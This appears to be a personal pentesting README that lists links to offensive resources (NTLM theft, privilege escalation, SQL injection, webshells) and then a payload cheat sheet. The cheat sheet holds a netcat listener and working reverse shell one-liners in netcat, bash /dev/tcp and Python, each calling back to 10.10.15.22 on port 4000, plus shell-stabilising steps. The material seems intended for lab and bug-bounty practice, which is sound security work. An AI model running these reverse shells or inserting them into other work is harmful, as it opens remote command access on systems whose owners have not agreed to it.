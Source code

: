 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
## Hash Cracking

- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)

## Payloads
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)

## Linux Privillage Escalation
- [**GTFO bins**](https://gtfobins.github.io/)

## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)

## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
# Payloads
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```

#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
